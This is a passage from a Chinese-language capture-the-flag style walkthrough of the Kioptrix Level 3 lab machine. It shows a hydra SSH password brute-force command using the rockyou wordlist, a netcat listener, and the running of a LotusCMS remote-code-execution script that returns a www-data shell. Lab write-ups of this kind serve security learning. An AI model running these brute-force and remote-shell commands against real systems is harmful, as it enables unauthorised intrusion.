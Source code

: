https://www.c0dedead.io/kioptrix-level-3-walkthrough/

这个师傅发现了，新加入成员的姓名，于是进行了爆破：

![image-20240127151359965](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712047.png)

使用`hydra`爆破ssh的密码：

```shell
hydra -l loneferret -P /usr/share/wordlists/rockyou.txt 192.168.244.140 -t 4 ssh

```

这里如果报错就这么操作：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712048.png" alt="image-20240127151607834" style="zoom:50%;" />

这是john自带字典，需要进行解压一下。

但是运行的时候还是发生了报错，意思是，我们客户端缺少相关的加密算法：

![image-20240127152059181](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712049.png)

以后有机会再进行尝试吧，我在多个地方查看到这个问题的解决方式，均未解决。

### github搜索相关漏洞

https://infosecwriteups.com/vulnhub-kioptrix-level-3-1-2-3-a7ff58cbfb8f

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712050.png" alt="image-20240127155753171" style="zoom:50%;" />

这个感觉在 searchsploit 里见过，查了一下，又不太一样。。。

```shell
# 本地设置监听
nc -lvvp 1234
# 利用脚本
./lotusRCE.sh 192.168.244.140
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712051.png" alt="image-20240127163427351" style="zoom: 50%;" />

获得一个 www-data 的账号，继续尝试提权即可。


